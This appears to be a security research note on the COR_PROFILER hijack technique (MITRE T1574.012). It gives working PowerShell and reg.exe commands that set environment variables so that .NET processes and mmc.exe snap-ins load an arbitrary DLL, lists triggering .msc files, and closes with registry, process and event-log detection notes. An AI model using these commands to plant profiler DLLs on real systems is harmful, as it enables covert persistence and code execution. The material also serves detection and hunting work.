 # Hijack Execution Flow COR_PROFILER

## Keynotes
Before any DLL execution done:  
`COR_ENABLE_PROFILING` must be `1`  
`COR_PROFILER_PATH` must be a valid `DLL` file since it will be trigger by `LoadLibrary()` later

## Execution
Two ways to add COR_* related Envrionment
- Registry based
- Session based (cmd.exe/powershell.exe prompt)

### Registry based
### Powershell
HKCU
```
New-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -PropertyType String -Value "{<CLISD>}" -Force
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -PropertyType String -Value <FULL_FILE_PATH> -Force
```
HKLM
```
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -PropertyType String -Value "{<CLSID>}" -Force 
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -PropertyType String -Value <FULL_FILE_PATH> -Force
```

### Windows Command Line
HKCU
```
reg add "HKCU\Environment" /v "COR_ENABLE_PROFILING" /t REG_SZ /d "1" /f
reg add "HKCU\Environment" /v "COR_PROFILER" /t REG_SZ /d "{<CLSID>}" /f
reg add "HKCU\Environment" /v "COR_PROFILER_PATH" /t REG_SZ /d "<FULL_FILE_PATH>" /f
```
HKLM
```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v "COR_ENABLE_PROFILING" /t REG_SZ /d "1" /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v "COR_PROFILER" /t REG_SZ /d "{<CLSID>}" /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v "COR_PROFILER_PATH" /t REG_SZ /d "<FULL_FILE_PATH>" /f
```

### Session based / Registry free
### Powershell: Session based  
```
$env:COR_ENABLE_PROFILING = 1  
$env:COR_PROFILER = '{<CLSID>}'  
$env:COR_PROFILER_PATH = '<FULL_PATH_TO_DLL>'
```

### Powershell: Permanent add $env in PS (USER)
```
[System.Environment]::SetEnvironmentVariable('COR_ENABLE_PROFILING', 1, [System.EnvironmentVariableTarget]::User)  
[System.Environment]::SetEnvironmentVariable('COR_PROFILER_PATH', '<FULL_PATH_TO_DLL>', [System.EnvironmentVariableTarget]::User)  
[System.Environment]::SetEnvironmentVariable('COR_PROFILER', '{<CLSID>}', [System.EnvironmentVariableTarget]::User)
```

## Analysis
### General Flow
The binary will loads `clr.dll` and get the config of `COR_PROFILER`. After going through few functions. It will leads to `LoadLibrary()` that will load the DLL that declared in the `COR_PROFILER_PATH`

![getconfigvalue_COR.png](./Image_T1574.012/getconfigvalue_COR.PNG)

### Function chain inside `clr.dll` that will trigger the loading of DLL declared in `COR_PROFILER_PATH`
```
ProfilingAPIUtility::InitializeProfiling()   ProfilingAPIUtility::AttemptLoadProfilerForStartup() 
CLRConfig::GetConfigValue() COR_ENABLE_PROFILING/COR_PROFILER/COR_PROFILER_PATH  
ProfilingAPIUtility::LoadProfiler()  
EEToProfInterfaceImpl::Init()  
EEToProfInterfaceImpl::CreateProfiler  
CoCreateProfiler  
FakeCoCreateInstanceEx()  
FakeCoCallDllGetClassObject()  
LoadLibrary()
```

### For mmc.exe case
The struct of `CSnapInReference` that passed into `mmcndmgr.dll -> CreateSnapIn()` will decide whether `clr.dll` will be load and getting config of `COR_PROFILER`

Load clr.dll if `CFxSnapInReference` was loadded
![snapin_clr_dll.png](./Image_T1574.012/snapin_clr_dll.png)

Does not load clr.dll if **NOT** `CFxSnapInReference` loaded
![snapin_no_clr_dll.png](./Image_T1574.012/snapin_no_clr_dll.png)

### Register based
When the .msc loads one of the FX:{CLSID}, it will load of `clr.dll` and leads to `LoadLibrary()` of the DLL in `COR_PROFILER_PATH`.  

According to [Microsoft Doc](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/ms692747(v=vs.85)), FX is a prefix that is used to distinguish MMC 3.0 snap-ins from the older snap-ins.  

Those FX:{CLSID} can be found in registry key `HKLM\SOFTWARE\Microsoft\MMC\SnapIns`

### Session based / Registry Free
- The prompt needs to execute those dotnet binary in same session
- Any dotnet binary will trigger the check for COR_* related environment variables

## Hunt
### List of .msc available  
http://www.auditiait.es/en/list-of-commands-msc/  
https://ss64.com/nt/syntax-mmc.html
### Enumerate more .msc in your machine 
`dir c:\windows\*.msc /s /b /p`

### List of .msc (Not limited to) 
These .msc will trigger the loading of preload of COR_PROFILER
- comexp.msc
- compmgmt.msc
- eventvwr.msc
- gpedit.msc
- secpol.msc
- taskschd.msc
- tpm.msc
- wf.msc
- devmoderunasuserconfig.msc (Need UAC)

## Detection
### Process
mmc.exe that loads clr.dll
![mmc_dotnet_process_hacker.png](./Image_T1574.012/mmc_dotnet_process_hacker.PNG)

### Process chain
mmc.exe -> INTERSTING.msc

### Registry Key
Any COR_* related registry name found in:  
```
HKCU:\Environment  
HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment
```
Remember `COR_ENABLE_PROFILING` must be `1` and 
investigate binary inside `COR_PROFILER_PATH`

### Windows Event
Sourcetype: Application  
Event ID: 1022 shows error (For mmc.exe)  
Note: It might contain lots of FPs
![winevtlog_application_error_1022.png](./Image_T1574.012/winevtlog_application.png)

Sourcetype: Powershell
Note: Powershell script block if possible

## References
https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/ms692747(v=vs.85)  
http://www.auditiait.es/en/list-of-commands-msc/  
https://ss64.com/nt/syntax-mmc.html  
